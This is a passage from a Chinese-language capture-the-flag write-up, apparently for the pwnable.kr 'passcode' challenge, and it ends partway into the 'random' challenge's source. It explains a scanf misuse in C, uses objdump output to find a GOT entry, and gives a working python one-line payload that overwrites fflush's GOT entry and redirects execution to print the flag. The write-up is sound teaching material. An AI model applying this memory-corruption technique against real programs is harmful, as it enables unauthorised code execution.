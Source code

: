 ```
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;    
}
```

这段代码存在scanf误用，读入的数据并没有写入passcode1，passcode2，而是写入了passcode1，passcode2未被初始化时所存储的内容，经过gdb调试发现welcome函数中的name变量最后4字节刚好可以覆盖到passcode1（堆栈平衡之后并没有情况栈，所以栈中残留着局部变量name），这样就可以通过控制name的最后4字节达到任意地址写。

最简单的想法是让代码直接跳转到system(“/bin/cat flag”);但是又不能直接修改eip，这时想到了修改GOT表，直接把下一个要执行的函数地址改成输出flag的代码的起始地址，通过objdump找到system(“/bin/cat flag”);代码起始地址：

```
80485ce:    81 7d f4 c9 07 cc 00     cmpl   $0xcc07c9,-0xc(%ebp)
 80485d5:    75 1a                    jne    80485f1 <login+0x8d>
 80485d7:    c7 04 24 a5 87 04 08     movl   $0x80487a5,(%esp)
 80485de:    e8 6d fe ff ff           call   8048450 <puts@plt>
 80485e3:    c7 04 24 af 87 04 08     movl   $0x80487af,(%esp)
 80485ea:    e8 71 fe ff ff           call   8048460 <system@plt>
```

可以看到起始地址为0x80485e3。scanf下一句代码是fflush(stdin); 同样用objdump找到fflush的GOT表地址：

```
08048430 <fflush@plt>:
 8048430:       ff 25 04 a0 04 08       jmp    *0x804a004
 8048436:       68 08 00 00 00          push   $0x8
 804843b:       e9 d0 ff ff ff          jmp    8048410 <_init+0x30>
```

GOT表项地址为0x804a004 。最终构造shellcode输入：

```
python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147\n"' | ./passcode
```

134514147为0x80485e3的十进制数值（因为 %d是取出整数），得到flag：Sorry mom.. I got confused about scanf usage ![](http://img2.tuicool.com/MBzqyaY.png!web)

## 6.random

C

```
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
```